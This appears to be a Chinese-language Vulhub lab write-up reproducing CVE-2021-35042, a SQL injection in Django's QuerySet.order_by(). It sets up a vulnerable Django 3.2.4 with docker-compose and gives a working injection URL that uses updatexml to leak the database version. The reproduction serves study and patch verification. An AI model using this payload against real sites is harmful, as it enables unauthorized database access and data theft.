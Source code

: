 # Django QuerySet.order_by() SQL注入漏洞

# CVE-2021-35042

## 漏洞描述

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控order_by传入的值，在预期列的位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

访问页面`http://your-ip:8000/vuln/`，在GET参数中构造`order=-id`，会得到根据id降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```

![image-20220222171428294](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221714341.png)

再构造GET参数`order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入SQL语句，利用堆叠注入获得信息：

![image-20220222171548110](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221715188.png)

